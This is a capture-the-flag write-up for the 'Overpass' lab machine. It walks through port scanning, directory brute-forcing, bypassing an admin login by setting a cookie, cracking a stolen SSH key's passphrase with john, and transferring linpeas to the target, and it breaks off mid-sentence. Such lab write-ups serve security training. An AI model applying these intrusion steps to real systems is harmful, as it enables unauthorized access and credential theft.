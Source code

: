 # Overpass CTF

### Tasks: 
- Hack into the machine and get the *user.txt* flag 
- Escalate privileges and get the *root.txt* flag

<br>

### Step 1 - Recon
Since we're given an IP address of the target, let's use nmap to scan it and see if any ports are open:

``nmap -sV 10.10.192.255 -v``

And from the output, we can see that there are two ports open on the target machine. Port 22 (SSH) and 80 (HTTP):

![billede](https://user-images.githubusercontent.com/78546461/199543842-ef5db06d-bfb8-4c49-b94b-b6ec8292797d.png)

<br>

### Step 2 - Finding a way in

Since we don't have any idea of a username or password, the best thing to do here is to check out the webpage, on port 80.

![billede](https://user-images.githubusercontent.com/78546461/199544761-64cfaf7b-8612-4d88-85f8-fa42d42f7e76.png)

So the webpage is for a password manager. Well, we can obviously see that there is an *About Us* and a *Downloads* page, but perhaps there could be other pages as well. 

Before we check, let's see if the page source has anything of interest to offer.

![billede](https://user-images.githubusercontent.com/78546461/199545395-f5ea6101-e0fb-4fb6-bbff-03b07d96ee58.png)

Aha. So this alleged *Military Grade Encryption* is probably not what it sounds like. 

Based on the *Romans used it* part, my guess would be that they have used the *Caesar Cipher* as their encryption for the passwords. 

<br>

Anyway, let's scan the website with gobuster and see if there are other pages of interest:

``gobuster dir -u http://10.10.192.255 -w /usr/share/wordlists/dirb/common.txt``

This reveals that there are a couple more pages, which we didn't know about. 

However, there is only one page in particular that stands out as interesting, and that is the */admin* page. 

![billede](https://user-images.githubusercontent.com/78546461/199546875-051aecb3-4803-4ce2-ae56-46ddff3bf365.png)

<br>

Let's check it out:

![billede](https://user-images.githubusercontent.com/78546461/199547839-e1a230db-06c5-4535-a803-0b7fccb399c2.png)

<br>

Well, well, well. A login page. Let's try putting admin for both username and password:

![billede](https://user-images.githubusercontent.com/78546461/199548259-f85768dc-95c4-499d-adee-e8b54061b8d4.png)

<br>

Hmm.. We could always try brute forcing the login with hydra, but let's first see if there's anything of interest, using the developer tools:

![billede](https://user-images.githubusercontent.com/78546461/199548648-14915b36-9727-4241-af26-eff045204385.png)

So we have a JavaScript file for cookie and one for login. Alright, that might be something.

It doesn't seem like cookie.js is of much use, as it is just a long line of text, which might be auto-generated. 

login.js on the other hand, has some interesting information to offer. It seems like it will set a cookie if the credentials are not incorrect.

![billede](https://user-images.githubusercontent.com/78546461/199549814-2f06f479-fddc-4cfb-8afa-337e6b9a21d1.png)

<br>

Let's try that out for ourselves, in the console:

![billede](https://user-images.githubusercontent.com/78546461/199549975-d57c47db-05d6-488e-b714-7f290afa6e88.png)

<br>

And then refresh the page..

Aaand, we're in. And apparently there's some real valuable information on the very first page!

![billede](https://user-images.githubusercontent.com/78546461/199550652-b23e8cd8-329f-455e-9631-c441705d626d.png)

<br>

So, it seems like we have a potential username, if not two. But James seems like the lesser smart person here, so let's focus on him. 

We have his RSA Private Key right here on the page, so let's copy that into a new file and call it *id_rsa*.

And then try to login using the RSA key, through SSH with username james:

``ssh james@10.10.192.255 -i id_rsa``

![billede](https://user-images.githubusercontent.com/78546461/199551799-411463f7-7d38-4eee-81ef-0f77fa220fe1.png)

<br>

Hmm.. It wants a passphrase for the key file. Which we don't have. 

Let's try using ssh2john.py to see if we can get anything out of the RSA key:

``/opt/john/ssh2john.py``

<br>

This returns us a long string of text, that we can give to john and attempt to find the passphrase, by running it against a wordlist. I'll use the good old *rockyou.txt*:

But first, I'll save the output to a new file and call it *john_rsa*.

Now, let's give it a go with john:

``john --wordlist=/usr/share/wordlists/rockyou.txt john_rsa``

![billede](https://user-images.githubusercontent.com/78546461/199553339-4af8e119-4c0d-49b2-a7f0-8b6c577c3337.png)

<br>

Well, that was easy. So the passphrase should be *james13*. Let's try it out:

``ssh james@10.10.192.255 -i id_rsa`` 

![billede](https://user-images.githubusercontent.com/78546461/199553845-2c1ebd9a-4b21-47a9-8280-5cddef48f86c.png)

![billede](https://user-images.githubusercontent.com/78546461/199553961-7cd3849f-c4e3-425a-9ebc-be190fc33470.png)

<br><br>

### User flag

<br>

There we go. We're in! Now, let's find a flag.

``ls`` 

![billede](https://user-images.githubusercontent.com/78546461/199554136-55d814d0-4a64-4bc4-a709-62597ba22a53.png)

<br>

There we have our user.txt. 

![billede](https://user-images.githubusercontent.com/78546461/199554329-cfb9b7b8-3c7e-4e85-a0b1-0d9f05b060d5.png)

<br><br>

Nice. Now, let's get the root flag.

<br>

### Root flag

<br>

Now, to make life a little easy, let's try to get an enumeration tool, such as linpeas onto the target machine.

Note: linpeas, as well as winpeas, can be downloaded from the official author's GitHub page: https://github.com/carlospolop/PEASS-ng 

First, I'll open up a http server with python on my host machine, in the directory where linpeas.sh is:

<br>

``python3 -m http.server 4444``

<br>

And then, on the target machine, I'll use wget to download the linpeas.sh file. This will only work in a directory where 

